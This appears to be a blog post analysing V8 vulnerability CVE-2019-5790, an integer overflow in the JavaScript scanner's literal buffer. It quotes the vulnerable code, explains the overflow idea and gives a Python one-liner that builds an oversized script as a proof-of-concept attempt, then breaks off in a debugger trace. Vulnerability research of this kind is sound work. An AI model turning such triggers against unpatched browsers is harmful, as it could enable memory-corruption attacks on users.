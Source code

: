 ```yaml
---
title: V8 CVE-2019-5790
date: 2019-03-14 20:55:00 +0800
categories: [Analysis]
tags: [v8, CVE-2019-5790]
---
```


This blogpost is an analysis of vulnerability reported by Dimitry Fourny from Blue Frost Security which was already fixed in repository but no poc has been released yet. It got me curious how the poc would look like for this bug so I started my research on the bug. I described the way I approached this bug with all the steps, also non-working tries.

https://chromereleases.googleblog.com/2019/03/stable-channel-update-for-desktop_12.html?m=1
https://access.redhat.com/security/cve/cve-2019-5790

Patch : [Link](https://github.com/v8/v8/commit/c7410e8ccff855fdb1a1a0a0c6c2690716a96548)

## Bug

```cpp
int Scanner::LiteralBuffer::NewCapacity(int min_capacity) {
  int capacity = Max(min_capacity, backing_store_.length());
  int new_capacity = Min(capacity * kGrowthFactory, capacity + kMaxGrowth);
  return new_capacity;
}

void Scanner::LiteralBuffer::ExpandBuffer() {
  Vector<byte> new_store = Vector<byte>::New(NewCapacity(kInitialCapacity));
  MemCopy(new_store.start(), backing_store_.start(), position_);
  backing_store_.Dispose();
  backing_store_ = new_store;
}
```

``` Scanner::LiteralBuffer::NewCapacity ``` 
Is responsible for calculation of size that need to be allocated on the heap for the incoming string.
It takes value ```min_capacity``` which is 16 and checks it against the ```backing_store_.length()``` which is the size of the string in question.
Value ```kMaxGrowth``` equals 1MB = 1048576;

Basic idea of the allocation is like this:
```"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" = 64 chars, so allocation would be 256.```

Now all we need is to overflow allocation however there is tricky part because to overflow it we need max_int +1 (2147483648 + 1), so there are two choices to do that :

* create file with variable name that is max_int+1 = 2GB file
* create dynamic string and the eval it so engine would need to parse it

## Method 1:
My attempt is to create file with this command:
```python -c "print('var '+'a'*134217729+' = 1')" > poc2.js```


CTRL+C during execution:
```
#0  0x000055555559a189 in (anonymous namespace)::(anonymous namespace)::CheckLTImpl<unsigned long, unsigned long> (lhs=37441044, rhs=37748736, msg=0x7ffff5f97060 "index < length_") at ../../src/base/logging.h:301
#1  0x00007ffff62dabbf in (anonymous namespace)::(anonymous namespace)::Vector<unsigned char const>::operator[] (this=0x7fffffffc380, index=37441044) at ../../src/vector.h:61
#2  0x00007ffff700698f in (anonymous namespace)::(anonymous namespace)::Scanner::LiteralBuffer::AddOneByteChar (this=0x7fffffffc380, one_byte_char=97 'a') at ../../src/parsing/scanner.h:486

[0]: ExitFrame [pc: 0x7ffff79e678d]
[1]: StubFram...
